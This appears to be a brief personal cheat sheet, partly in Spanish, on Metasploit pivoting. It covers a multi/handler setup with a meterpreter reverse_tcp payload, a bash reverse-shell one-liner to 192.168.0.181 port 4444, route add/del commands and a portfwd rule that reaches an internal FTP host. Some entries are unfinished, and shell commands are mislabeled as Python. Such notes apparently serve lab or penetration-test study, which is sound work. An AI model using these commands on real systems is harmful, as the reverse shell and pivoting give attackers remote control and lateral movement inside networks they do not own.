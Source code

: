 ### Pivoting 

use /multi/handler

```python

payload/linux/x86/meterpreter/reverse_tcp

```
run
```python
sh -i >& /dev/tcp/192.168.0.181/4444 0>&1
```

route add
```python
route add 10.0.2.4 255.255.255.0 2
```

eliminar una ruta
```python
	route del
```

agregar rutas automaticas
```python
	use 
```


pivoting by portforgarding 
```python
portfwd add -l 7777 -p 21 -r 10.0.2.5
```
